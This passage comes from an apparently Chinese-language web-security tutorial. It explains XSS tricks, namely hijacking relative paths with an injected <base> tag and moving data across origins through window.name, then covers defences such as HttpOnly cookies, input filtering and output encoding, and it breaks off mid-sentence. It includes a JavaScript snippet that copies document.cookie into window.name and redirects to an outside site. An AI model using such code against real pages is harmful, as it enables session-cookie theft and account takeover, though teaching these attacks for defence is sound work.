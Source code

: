 #### `<base>` 标签的使用

`<base>` 标签是文档根 URL 元素，可以出现在页面的任何地方，并作用于位于该标签之后的所有标签。

比如页面打开一张不存在的图片 `<img src="/images/logo.png"/>` 这个图片会加载失败，如果在这个   img  标签前加上 `<base>` 标签 `<base href="http://www.google.com" />`  那么这个图片将从这个指定的 URL 加载，即 `http://www.google.com/images/logo.png` 这个地址加载资源。

攻击者如果在页面中插入 `<base>` 标签，就可以通过在远程服务器上伪造图片、链接或脚本，劫持当前页面中的所有使用相对路径，包括所有使用 `src` 和 `href` 属性索引资源的标签。

#### `window.name` 的使用

`window.name` 对象是一个很神奇的东西，对当前窗口的 `window.name` 对象赋值，没有特殊字符的限制。因为 `window` 对象是浏览器的窗体，而并非 `document` 对象，因此很多时候 `window` 对象不受同源策略的限制，因此可以实现跨域、跨页面传递数据。

比如在一个被 XSS 攻击的页面中，获取到信息赋给 `window.name`，然后立即跳转到另一个网站。

```javascript
window.name = "test~ User Cookie is: " + document.cookie;
alert(document.domain + " " + window.name);
window.location = "http://www.google.com/";
```

在另一个网站中即可获取到上一页面的信息

```javascript
console.log(window.name);
// test~ User Cookie is: ...
```

![](https://cdn.jsdelivr.net/gh/SHERlocked93/pic@master/upic/image-20210421155425374-20210421-5pfg3b.png)

### XSS 防御

#### 1. Cookie 的 HttpOnly 标识

如果给 Cookie 设置了 HttpOnly 那么通过 JS 就无法读取到 Cookie。HttpOnly 可以有选择性地加在任何一个 Cookie 值上，可以仅把 HttpOnly 标记给用于认证的关键 Cookie。

HttpOnly 解决的是 XSS 后的 Cookie 劫持攻击。

#### 2. 输入检查

输入检查一般是检查用户输入的数据中是否包含一些特殊字符，如 `<`、`>`、`'`、`"` 等。如果发现存在特殊字符，则将这些字符过滤或者编码。

这种做法类似于白名单，可以让一些基于特殊字符的攻击失效。

输入检查的逻辑，必须放在服务器端代码中实现。如果只是在客户端使用 JS 进行输入检查，是很容易被攻击者绕过的，普遍做法是同时在客户端 JS 代码和服务器端代码中实现相同的输入检查。客户端输入检查，可以阻挡大部分误操作的正常用户，从而节约服务器资源。

比较智能的输入检查，还会匹配 XSS 的特征。比如查找用户数据中是否包含了 `<script>`、`javascript` 等敏感字符。

#### 3. 输出检查

除了富文本的输出外，在变量输出到  HTML 页面时，可以使用编码或转义的方式来防御 XSS 攻击。编码方式 HtmlEncode 要求将一些常用的特殊字符进行转译，比如 `&` 转化为 `&amp;`、`<` 转化为 `&lt;`、`/` 转化为 `&#x2f;` 等。

#### 4. CSS Expression

在 IE5-8 的时代，有过一个 CSS 表达式 （CSS Expression）解决方案，可以在 CSS 里面写 JS，给 CSS 属性赋一个表达式，当时用来做很多 hack 方案，但是作为一个 Web 时代临时的解决方案也有它的弊端
